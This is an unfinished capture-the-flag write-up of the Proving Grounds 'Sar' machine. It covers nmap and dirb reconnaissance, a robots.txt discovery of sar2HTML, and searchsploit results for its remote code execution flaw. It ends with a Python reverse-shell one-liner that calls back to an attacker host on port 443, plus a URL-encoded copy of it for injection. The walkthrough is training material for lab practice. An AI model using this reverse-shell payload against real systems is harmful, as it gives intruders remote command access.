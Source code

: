 # IP: 192.168.114.35

# 192.168.114.35


# Nmap

```javascript
┌──(dx㉿kali)-[~]
└─$ nmap 192.168.114.35                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 01:38 EDT
Nmap scan report for 192.168.114.35
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 59.67 seconds
```

# NMAP-Advanced Section
```javascript
┌──(dx㉿kali)-[~]
└─$ nmap -p 22,80 -sC -sV 192.168.114.35
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 01:40 EDT
Nmap scan report for 192.168.114.35
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.19 seconds
```

# Navigating to Port-80

![Sar-provingground-webpage](https://user-images.githubusercontent.com/98345027/187840124-10cea880-c77d-44e0-b77e-0da506295069.png)

# Robots.txt Webpage
![sar-robots-txt-provingground](https://user-images.githubusercontent.com/98345027/187840339-c9d282a8-f05b-4c2e-bef2-c8ea52bc0dd1.png)
```javascript
Note: In The Robots.txt page we got: sar2HTML
lets try to append in the url: http://192.168.114.35/sar2HTML/
```

![sartohtml-webpage-provingground](https://user-images.githubusercontent.com/98345027/187841032-e90bafbb-f40e-460a-8308-974c9be0f27d.png)

# Findingd from /sar2HTML
```javascript
1. From the webpage we found the Version of sar2html 
2. From the Source page we don't fnd anything relevant to the information
```

# Dirbuster: checking for directory
```javascript
┌──(dx㉿kali)-[~]
└─$ dirb http://192.168.114.35/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  1 01:58:37 2022
URL_BASE: http://192.168.114.35/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.114.35/ ----
+ http://192.168.114.35/index.html (CODE:200|SIZE:10918)                                                                                        
+ http://192.168.114.35/phpinfo.php (CODE:200|SIZE:95499)                                                                                       
+ http://192.168.114.35/robots.txt (CODE:200|SIZE:9)                                                                                            
+ http://192.168.114.35/server-status (CODE:403|SIZE:279)                                                                                       
                                                                                                                                                 
-----------------
END_TIME: Thu Sep  1 02:13:04 2022
DOWNLOADED: 4612 - FOUND: 4
```


# Searchingsploit 
```javascript
┌──(dx㉿kali)-[~]
└─$ searchsploit sar2html
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Executi | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution   | php/webapps/47204.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
                        
```

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.114",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Url Encode Pyload
```javascript
%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%34%39%2e%31%31%34%22%2c%34%34%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27
```

```javascript
```

```javascript
```
